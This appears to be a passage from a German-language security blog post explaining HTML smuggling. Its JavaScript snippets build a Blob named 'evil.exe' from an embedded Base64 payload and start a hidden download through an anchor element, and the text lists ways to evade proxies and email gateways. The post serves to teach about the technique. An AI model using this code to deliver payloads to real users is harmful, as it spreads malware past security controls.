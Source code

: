 Wie wir gesehen haben, kann die bösartige HTML-Datei Malware auf das System des Opfers auf verschiedene Weise übertragen. In diesem Szenario ist die gesamte Malware-Payload in Base64 codiert und direkt in die HTML-Datei eingebettet. Wir sehen die Variable `file`, die die Payload enthält.

Die Funktion `base64ToArrayBuffer` konvertiert die codierte Payload in die eigentlichen Bytes, aus denen die bösartige Datei besteht.

Es ist wichtig zu beachten, dass Angreifer noch komplexere Methoden entwickeln können, um Malware zu verbreiten. Zum Beispiel könnten sie die Payload in mehrere Teile aufteilen, Teile davon remote abrufen oder verschiedene Codierungsstandards und Verschlüsselungstechniken verwenden. Diese Strategien erhöhen die Wahrscheinlichkeit, Sicherheitsmaßnahmen wie Web-Proxies, Firewalls und E-Mail-Gateways zu umgehen, erheblich.

#### JavaScript Blob

```javascript
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'evil.exe';
```

Dies ist der Kern des Angriffs. Das Blob-Objekt ermöglicht die Erstellung einer Datei im Browser mithilfe von JavaScript-Code. So beschreibt es Mozilla:

```text
"Die Blob-Schnittstelle repräsentiert ein Blob, das ein dateiähnliches Objekt mit unveränderlichen, rohen Daten ist; sie können als Text oder Binärdaten gelesen oder in einen ReadableStream konvertiert werden, damit ihre Methoden zum Verarbeiten der Daten verwendet werden können.
Blobs können Daten darstellen, die nicht unbedingt in einem JavaScript-eigenen Format vorliegen. Die File-Schnittstelle basiert auf Blob, erbt die Blob-Funktionalität und erweitert sie, um Dateien auf dem System des Benutzers zu unterstützen."
```

<img src="/posts/html-smuggling/static/blob-struct.png" alt="wo sind die Teile" style="display: block; margin-left: auto; margin-right: auto; width: 100%; height: auto;">
<br>
Anstatt also auf den Webserver zu setzen, um eine Datei zu liefern, kann ein Blob lokal mithilfe von JavaScript erstellt werden. Zum Beispiel kann eine "evil.exe"-Datei, die normalerweise von einem Server heruntergeladen wird, stattdessen direkt auf dem Zielsystem zusammengestellt und heruntergeladen werden, indem ein HTML-Anker-Tag mit dem Attribut download verwendet wird.

#### HTML-Anker-Download

```javascript 
if (window.navigator.msSaveOrOpenBlob) {
    window.navigator.msSaveOrOpenBlob(blob, fileName);
} else {
    var a = document.createElement('a');
    console.log(a);
    document.body.appendChild(a);
    a.style = 'display: none';
    var url = window.URL.createObjectURL(blob);
    a.href = url;
    a.download = fileName;
    a.click();
    window.URL.revokeObjectURL(url);
}
```
